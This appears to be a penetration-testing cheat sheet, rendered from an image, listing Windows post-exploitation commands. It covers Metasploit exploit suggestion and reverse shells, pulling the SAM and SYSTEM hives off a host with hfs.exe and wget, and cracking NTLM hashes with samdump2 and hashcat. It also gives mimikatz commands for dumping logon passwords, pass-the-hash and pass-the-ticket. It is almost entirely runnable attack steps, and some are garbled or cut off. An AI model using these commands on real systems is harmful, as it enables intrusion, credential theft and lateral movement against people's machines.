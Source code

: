 ## Metasploit frame
1. run exploit suggester to enumerate vuls in target: `use post/multi/recon/local_exploit_suggester`
2. for each vulnerabilities suggested, run metasploit payload to obtain Reverse shell: `use exploit/windows/local/ms10_015_kitrap0d`
3. repeat thru the listed of suggested exploits and try until success

# Crack SAM (NTLM hash) and SYSTEM
1. On Windows, run hfs.exe to transfer SAM and SYSTEM to Kali (drag and drop)
2. On Kali, `wget http://192.168.1.55/sam` and `wget http://192.168.1.55/system`
3. Use samdump2 to decrypt SAM. `samdump2 system sam`
4. Copy and paste the hashes from (3) to notepad: `hashcat -m 1000 -a 3 hashes.txt rockyou.txt`
5. Note: -m specifies the hash type to decrypt e.g. 1000 = NTLM

# Dump SAM (NTLM) and LSA using mimikatz
1. needs to be admin to run mimikatz
2. `powershell -ep bypass`
3. `import-module .\invoke-mimikatz.ps1`
4. `Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"'`

**# 80. pass the hash using mimikatz
1. `powershell -ep bypass`
2. import-module .\invoke-mimikatz.ps1`
3. `Invoke-Mimikatz -Command '"sekurlsa::pth /user:stdent5 /domain:pentesting/ntlm:369def79d8372408bf6e93364cc93075 /run:powershell.exe"'`
4. Wait for 
5. Note for PTH, hash is valid only until the user change the password -> use RC4, while pass the ticket is only valid for a few hours.
6. Note: Kerberos is using AES256**

**### Pass the ticket 1
1. `.\mimikatz.exe` or `import-module .\invoke-mimikatz.ps1`
2. Export .kirbi file (with latest timestamp) to the working directory folder: `export Kirsekurlsa::tickets /export` or `Invoke-Mimikatz -Command '"Mimikatz::debug" "sekurlsa::tickets /export" "exit"'`
3. Finds the newly exported file int he working directory folder: `dir *.kirbi`
4. Pass the ticket: `mimikatz # kerberos::ptt *[0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi*` or `invoke-mimikatz -Command '"Mimikatz::debug "kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi" "exit"'
5. To list and show all the tickets that you have: `klist`**

### Pass the ticket 2
1. Use Rubeus instead of mimikatz


# MISC
